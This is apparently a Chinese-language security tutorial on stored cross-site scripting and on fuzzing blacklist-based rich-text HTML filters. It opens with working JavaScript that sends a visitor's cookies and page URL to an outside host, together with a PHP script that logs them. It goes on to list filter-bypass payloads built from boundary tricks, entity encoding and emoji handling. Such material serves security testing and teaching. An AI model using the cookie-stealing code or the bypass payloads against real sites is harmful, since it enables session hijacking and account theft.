






## 存储XSS 是什么
持久型XSS（Persistent）又叫做存储XSS（Stored XSS），与非持久型XSS相反，它是指通过提交恶意数据到存储器（比如数据库、文本文件等），Web应用程序输出的时候是从存储器中读出恶意数据输出到页面的一类跨站脚本漏洞（csrf 写 + self-xss = 存储 xss）。 
存储型XSS，输出的位置不一定出现在输入的位置，很难依赖于扫描自动发现（请求后从此页面/refer开始爬，看是否能触发）。比如说客户端app输入的位置，可能在app 其他输出地方才会触发，或者需要分享到网页版才能触发。  
更多时候是利用盲打的思想，XSS 盲打后台（其实最简单的就一个 js 弹cookie 请求到一个 服务端接收的 php ），代码如下所示：  
``` javascript 
(function() {
  (new Image()).src='http://simba.im/js/xss.php?cookie='+
  escape(
    (function() {
      try {
        return document.cookie
      } catch (e) {
        return ''
      }
    })()
    )+'&location='+
  escape(
    (function() {
      try {
        return document.location.href
      } catch (e) {
        return ''
      }
    })()
    );
})();
```
``` php
<?php
    if(isset($_REQUEST['cookie']) && isset($_REQUEST['location'])) 
    {
        $cookie = $_REQUEST['cookie'];
        $location = $_REQUEST['location'];
        $stri = "<td>".date(DATE_ATOM)."</td><td>Cookie:".$cookie."</td><td>Location:".$location."</td>";
        $fp = file_put_contents("xss.txt", $stri."\n", FILE_APPEND);
    }

    $fp = file_get_contents("xss.txt");
    $data = (explode("\n", $fp));
    echo "<table bode=\"1\">";
    foreach($data as $key => $value)
    {
        if ($value == "")
        {
            continue;
        }
        echo "<tr><td>".($key)."</td>".$value."</tr>";
    }
    echo "</table>";
?>
```

在添加 payload 去盲打的时候很可能被富文本过滤器过滤掉，下面着重来讲下如何利用 fuzzing 思想来逃过 xss filter 的过滤。  

原稿来自 martin zhou（周雨阳）

## 一、背景
在一些互联网巨头的站点，总有一些业务，比如邮件内容编辑、日志帖子类编辑发布等功能时，需要授权给用户自定义链接、改变字体颜色，插入视频图片，这时就不得不需要需要引入 HTML 富文本实现相应功能。htmlspecialchars()这种把所有特殊符号做转义处理的过滤办法，在这里，英雄无用武之地，因为 HTML标签全部被过滤了，那之前提到的这些用户可以自定义功能又该如何实现？  

一个问题总有它的解决办法，所以基于白/黑名单防御思想的富文本内容过滤器应运而生，并很快被应用到了对抗富文本存储型 XSS 的前沿。它的任务就是根据内置的正则表达式和一系列规则，自动分析过滤用户提交的内容，从中分离出合法和被允许的 HTML，然后经过层层删除过滤和解析最终展示到网页前端用户界面来。这样既不影响网站的安全性，也不会妨碍到用户自定义富文本内容功能的实现。道高一尺魔高一丈，经过一些前期的手工测试和侧面从各种渠道公开的漏洞报告中了解，大多数网站的富文本过滤器采用“黑名单”的设计思想。这也为我们使用模糊测试来自动化挖掘富文本存储型 XSS 提供了可能性。  
  
（图：某国内知名邮箱的富文本过滤器基于“黑名单”设计逻辑）  
与此同时，本文的主角，“强制发掘漏洞的利器”-- 模糊测试(Fuzzing Test)，相信各位一定不会陌生。无论是在二进制还是在 WEB 端的黑盒测试中都有它立功的身影，从客户端软件漏洞的挖掘到 WEB 端弱口令的爆破，本质上都可以认为是一种模糊测试。结合富文本过滤器“黑名单”的实现逻辑，接下来，本文将主要探讨这类富文本存储型跨站脚本的模糊测试之道。将模糊测试这一强大的漏洞挖掘武器通过精细的打磨，挖掘出大量的潜在缺陷，并同时给出修复此类漏洞的“防守”建议。  
## 二、 找准目标，事半功倍
要进行模糊测试，首先要找准目标。知道目标有哪些地方有富文本编辑器，又有哪些种类，进一步推测其是否基于“黑名单”思想，是否可以进行自动化的模糊测试，才可以让我们接下来要进行的模糊测试，发挥出事半功倍的效果。并不是所有允许用户提交自定义内容的地方，都允许用户自定义富文本，如果网站已经在后端对所有提交的内容做了 htmlspecialchars()的过滤，就意味着所有提交的内容都会被转义，也就不存在模糊测试的必要了。比如：  
  
乌云漏洞报告平台的评论回复区域，后端的实现逻辑就是不允许用户传入富文本内容，对所有用户输入的内容做了 htmlspecialchars()的过滤。也就是说，如果你传入类似:  
`<script>alert(1);</script> => &lt;script&gt;alert(1);&lt;/script&gt;&nbsp;`  
这时无论你使用何种高大上的 XSS Vector，都无济于事，被转义以后的内容，无法对构成 XSS 跨站脚本。富文本编辑器也分很多种，比如基于 HTML 标签形式的富文本编辑器（Ueditor、Fckeditor），自定义富文本标签形式（Markdown, UBB(`[email=2" onmouseover="alert(2)]2[/email]`)），在国内外各大网站都有使用。模糊测试万变不离其宗，你有了一把锋利的斧头，你无论用什么方式砍柴，本质相同。只是有时候是类似 Ueditor 的编辑器，在进行模糊测试的时候，可能会更加方便容易。  
  
（图：百度 Ueditor）  

## 三、模糊测试框架
就好比写字之前你必须有一只笔，砍柴前必须有一把斧子一样，在开始针对富文本过滤器展开模糊测试之前，你必须得有一个可以自动生成 Payload 的模糊测试框架。设计模糊测试框架可以使用 Python/PHP/Javascript 等不同的脚本语言，也可以结合不同的设计思路。不过，今天笔者使用和想要介绍的思路是，通过“拼接”思想动态生成大量的供模糊测试使用的 Payload。这里的“拼接”思想，其实是一种基于“语法（Syntax）”规则来生成的 Payload 的方式。正在阅读本篇文章的你，也许听说过用编写好的程序根据一定规律生成足以以假乱真的“宋词”的新闻。同样的方法，也可以运用到针对富文本编辑器的模糊测试框架设计上来，不同的 HTML 文档看似千奇百怪，各有千秋，但都遵循着一定的规律，而这个规律就是我们刚刚提到的“语法（Syntax）”。不管一个 HTML元素再怎么变化，其最基本的组成部分一定有“<”,“>”,标签名(Tag Name)，属性名(Attribute)，属性值(Value)。所以按照这样的设计思路，我们就可以设计出一个简单的模糊测试框架出来。在本文最后，笔者也将给出在前辈大牛公开的 Fuzzer 基础上编写的模糊测试框架，供大家学习研究使用。  
  
（图：基于拼接思想动态生成 XSS Fuzzing Test Payload 的框架代码）  

## 四、 模糊测试模板  
有了模糊测试框架，就好比有了手枪，现在我们需要给它装上“子弹”-- 模糊测试模板，这样我们才能对不同的富文本编辑器背后的过滤程序展开模糊测试。一个模糊测试模板的好坏，很大程度上决定了之后我们是否能够高效的测试出富文本编辑器中潜在的缺陷，从而发掘出大量的存储型 XSS 构造姿势。而在设计自己的模糊测试模板时，主要需要考虑三点：边界、进制编码和字符集。  

先来说说边界问题。以下面简单的 HTML 代码为例：  
`<span class="yyy onmouseover=11111" style="width:expression(alert(9));"></span>`
上述 HTML 标记语言文本传给后端富文本编辑器的时候，程序会如何过滤和解析？也许是这样的：首先匹配到`<span`，进入其属性值过滤的逻辑，首先是否含有高危的 on 开头的事件属性，发现存在 onmouseover 但被 `” ”`包裹，作为 class属性的属性值，所以并不存在危险，于是放行；接着分析 style 属性，其中有高危关键词`expression()`，又有括弧特殊符号，所以直接清除过滤。上述过滤流程的实现，很大程度依赖于后端通过正则匹配进行的 HTML 标签中的边界分析。通过对“边界”的判定，类似 `class="yyyy onmouserover=11111"` 的属性及其值才会被放行，因为虽然 `onmouserover=11111` 虽然是高危的事件属性，但存在于`=" "`中，没有独立成一个 HTML 属性，也就不存在风险。所以在上面的例子中，`=” ”` 就是边界，`<span` 中的尖括号也是边界，空格也可以说成一种边界。所以，形象一点说，一段 HTML 代码的边界位置很有可能是下面这样的：`[边界]<span[边界]class=[边界]yyy[边界]>[边界]</span[边界]>`  

所以如果是类似 `style="width:expr/*"*/esion(alert(9));"` 属性和属性值呢？程序又该如何确定边界？是 `style="a:expr/*"`还是 `style="a:expr/*"*/ession(alert(9));"` ？ 当后端富文本过滤程序遇到这样，略微复杂的选择题时，如果其后端规则设计的过于简单，就很有可能导致把不该过滤的过滤掉，而把非法的内容放行，从而我们可以构造出存储型 XSS。打乱 HTML 边界，让后端富文本过滤器陷入选择窘境，这是我们设计模糊测试模板的原则之一。有哪些内容可能会导致富文本内容过滤器出现边界判断问题？  
(1) 特殊 HTML 符号，通过这类明显的符号，过滤器就可以到 HTML 标签及其属性，但这些符号错误的时候出现在了错误的地点，往往会酿成大祸，如:  
`=, ", ', :, ;, >, <, 空格, /,`  
(2) 过滤器会过滤删除的内容，我们在边界填充下面这些元素，过滤器盲目删除，很有可能导致原本无害的属性值，挣脱牢笼，成为恶意的属性和属性值，如：    
`expression, alert, confirm, prompt, <script>,<iframe>`
(3) 不可打印字符，如：  
`\t、\r、\n、\0` 等不可打印字符  
综上，现在我们已经可以用 Fuzzer 生成一个下面这样的 Payload。幸运的话，或许已经可以绕过一些后端逻辑简单的富文本过滤器了，示例如下：`<<<span/class=/yyyy onmouseover=11111/style="a:exp/*">*/ression(1);"></span>`
  

当然，除了边界区分问题，富文本过滤器面对着另外两个劲敌，特殊的进制字符编码和千奇百怪的字符集。  
我们先来说说字符编码，类似`\x22`,`\40`,`&#x22;`等一系列进制编码，直接当作文本内容传递给后端富文本过滤器，会怎么处理呢？解密后过滤？直接输出？经验告诉我们，不少过滤器在处理类似特殊的进制编码时，往往会在进制编码的特殊 HTML 符号面前摔个人仰马翻。像下面这样一段看似无害化的 Payload，在富文本过滤器自作聪明的解密过后，变成了一段跨站脚本：  
前：`<span class="yyy &#x22;onmouseover=alert(1);//"></span>`  
=>
后：`<span class="yyy" onmouseover=alert(1);//"></span>`
  
原本`“yy &#x22;onmouseover=alert(1);//”`并不存在边界被打破的情况，但是经过富文本编辑器的解密处理，`&#x22;`被转换回`”`，边界因此被打破。  
  
接下来，我们再来说说千奇百怪的字符集，不少富文本编辑器在处理类似`㊗`的 emoji 字符时，会将字符转化成``标签，最初的出发点，大概就是，统一在不同设备不同平台上 emoji 字符的表现形式。在乌云漏洞报告平台上也有类似的案例，一段起初无害的 Payload 摇身一变，成了有害的跨站脚本：  
前：`<style x="㊗" y="Fuzzitup {}*{xss:expression(alert(document.domain))}">`  
=>  
后：  
```
<style x="" y="Fuzzitup {}*{xss:expression(alert(document.domain))}"></style>
```

综合考虑边界、进制编码、字符集的三个基础要素，一个基础的模糊测试模板就成型了。  
不过等等，我们还需要“锦上添花”，通过分析互联网上公开 XSS Vector，我们还发现，由于一些浏览器奇怪的 DOM 解析逻辑，很有可能让一些本来无害的HTML Payload 在某个特定版本的浏览器内执行，我们在设计模糊测试模板的时候也应该把这些纳入考虑范围内。举个例子：  
`<div id="b" style="font-family:a/**/ression(alert(1))('\')exp\')">aa</div>`  
上面这段 Payload 看似无害，因为style 属性内根本没有出现 expression 这个单词，不过在 IE 7 和 IE8/9 的怪异模式下，仍然会被执行。在进行模糊测试的过程中，我们也需要不断地根据互联网上公开的各种案例，取其精华，不断更新打磨我们的模糊测试模板，这样在过滤器保护下的富文本编辑器中的漏洞才会源源不断的被挖掘出来。与此同时，我们在实战过程中，可能解决一些棘手的“高级”的问题，比如：模糊测试的效率、自动化等，这也需要我们经过一次又一次的测试探索，调整，使得我们的模糊测试工具达到最优的状态。  

## 五、“大功告成”
除了上文提到的几点，在对富文本编辑器进行模糊测试的不同阶段，我们通常还需要进行一番“踩点”，我们将这些本需要人工完成的“准备工作”，也都加入到我们的模糊测试工具中来。比如，在模糊测试开始之前，通常需要探测富文本过滤器允许哪些 HTML 标签属性在前台进行展示，这样才能有的放矢的进行更为精准的模糊测试。那我们就让我们的 Fuzzer 能够动态批量生成带有不同属性的各式 HTML 标签，前面提到
的“拼接”思想，就能够很简单的完成这样的任务；再比如，我们需要模糊测试能够自动化，因为我设计的 Fuzzer 是基于 PHP 的，结合 PHPMail 第三方库，我们就能够很轻松地实现，自动化发送邮件到指定邮箱对不同邮件系统的富文本编辑器进行模糊测试。  
  
(图：笔者的 Fuzzer 部分源代码)  
上面这段代码，出自笔者编写的 Fuzzer 中，其原理就是基于“HTML 语法”动态自动化生成带有不同 HTML 标签的 Payload，事实证明，通过这样自动化的模糊测试，确实能够挖掘出不少平时手工无法挖掘到的富文本存储型 XSS。  

## 六、后记
诚然，模糊测试是自动化强制发现漏洞的一个重要手段，就像自动化漏洞扫描器一样。但我们并不能完全依靠它，在测试过程中，对过滤器结果进行适时的分析，对模糊测试模板做出合理的改进，不仅能提高模糊测试的效率，还能够帮助我们挖掘到更多潜在的设计缺陷。毕竟，机器终究是“死板”的，而人是“灵活”的。富文本跨站脚本测试之道，就是对每一次模糊测试的结果进行细致分析，加上对模糊测试模板的不断打磨。毕竟，人与机器的结合，才会打造出一把真正的“神器”。  

## Reference
[htmlawed](http://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/index.php)